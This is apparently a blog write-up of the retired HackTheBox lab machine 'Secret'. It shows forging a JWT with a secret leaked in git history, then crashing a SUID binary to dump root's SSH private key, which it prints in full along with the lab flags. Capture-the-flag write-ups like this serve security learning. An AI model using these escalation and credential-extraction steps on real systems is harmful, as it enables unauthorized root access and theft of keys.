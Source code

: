 Title: HTB: Secret
Date: MM-08-2022 17:44
category:security
tags:security, boot2root, HTB, jwt, core dump
meta:security, boot2root, HTB, jwt, core dump

<img class="align-left" src="/media/2022.xx/secret_card.png" alt="Secret" width="262">

This is a writeup about a retired HacktheBox machine:
[Secret](https://www.hackthebox.com/home/machines/profile/408) publish on
October 30, 2021 by
[z9fr](https://www.hackthebox.com/home/users/profile/485024).
This box is rated as an easy machine. It implies a JWT token and its secret, as
well as a program core dump.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Only a few ports are open: 22(SSH), 80 (HTTP) and 3000(also an HTTP service
here).

![nmap](./secret_nmap.png)

The website on port 3000, provide an API and its documentation. We can download
the source code from the site. Looking at the different commit we found that
the commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78 "removed .env for security reasons"
might be interesting.

![git log](./secret_gitlog.png)


We look at the `git diff` for this specific commit and found the non redacted
`TOKEN_SECRET` for the application.

![git diff](./secret_gitdiff.png)

We create a python script that allow to interact with the API to create an
account, leveraging the known token secret to change our name to 'theadmin'
using [jwt_tool](https://github.com/ticarpi/jwt_tool)
putting our SSH public key on the box for the 'dasith' user.

[![https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee](./secret_l.py.png)](https://gist.github.com/maggick/af4eb7b8bc2aa3e55e3f8f02400235ee)

We can then connect using SSH and get the user flag.

    :::text
    $ ssh dasith@10.129.173.112
    dasith@secret:~$ cat user.txt
    7eb18a62ea270f0da664dac963a7fa05

# Root

Looking at the available file and specifically the SUID ones we found interesting
stuff in `/opt` as there is a `valgrind.log` file, a `code.c` file and a SUID
compiled binary. The presence of the [valgrind](https://valgrind.org/) file
hint us that the binary allow for core dump.

We run the SUID binary and enumerate the `/root/` and the `/root/.ssh/` folders.
There is a private SSH key that we want to retrieve.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/
    -rw-r--r--      .viminfo
    drwxr-xr-x      ..
    -rw-r--r--      .bashrc
    drwxr-xr-x      .local
    drwxr-xr-x      snap
    lrwxrwxrwx      .bash_history
    drwx------      .config
    drwxr-xr-x      .pm2
    -rw-r--r--      .profile
    drwxr-xr-x      .vim
    drwx------      .
    drwx------      .cache
    -r--------      root.txt
    drwxr-xr-x      .npm
    drwx------      .ssh

    Total entries       = 15
    Regular files       = 4
    Directories         = 10
    Symbolic links      = 1
    Save results a file? [y/N]: n

    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/
    drwx------      ..
    -rw-------      authorized_keys
    -rw-------      id_rsa
    drwx------      .
    -rw-r--r--      id_rsa.pub

    Total entries       = 5
    Regular files       = 3
    Directories         = 2
    Symbolic links      = 0
    Save results a file? [y/N]: n

We run the program again and this time we "read" the SSH key. We then put the
program on background with <CTRL+Z> and send a
[Segmentation Fault (SIGSEV)](https://en.wikipedia.org/wiki/Segmentation_fault)
to the application using `kill` and put it back in the foreground generating a
core dump.

    :::text
    dasith@secret:/opt$ ./count
    Enter source file/directory name: /root/.ssh/id_rsa

    Total characters = 2602
    Total words      = 45
    Total lines      = 39
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ ps
        PID TTY          TIME CMD
      1377 pts/0    00:00:00 bash
      1427 pts/0    00:00:00 count
      1456 pts/0    00:00:00 ps
    dasith@secret:/opt$ kill -SIGSEGV 1427
    dasith@secret:/opt$ fg
    -bash: fg: job has terminated
    [1]+  Segmentation fault      (core dumped) ./count

We use `appor-unpack` to unpack our core dump file and look for the SSH key in
it.

    :::text
    dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/p
    dasith@secret:/opt$ strings /tmp/p/CoreDump
    <SNIP>
    Save results a file? [y/N]: l words      = 45
    Total lines      = 39
    /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----

We save the SSH key and use it to connect to the box and grab the root flag.

    :::text
    └─$ ssh root@10.129.173.112 -i id_rsa_root
    root@secret:~# cat root.txt
    bb59318145fdf4a7ea1f50e6c829141c

# Wrapping up

An interesting box quit quick if you know what to do! The root part was harder
for me as I never exploited that before.
Also I tested some novelty in this article with the
[carbon](https://carbon.now.sh/) code snippet not sure to keep it that way as it
make it harder to copy paste and grep information from the article.

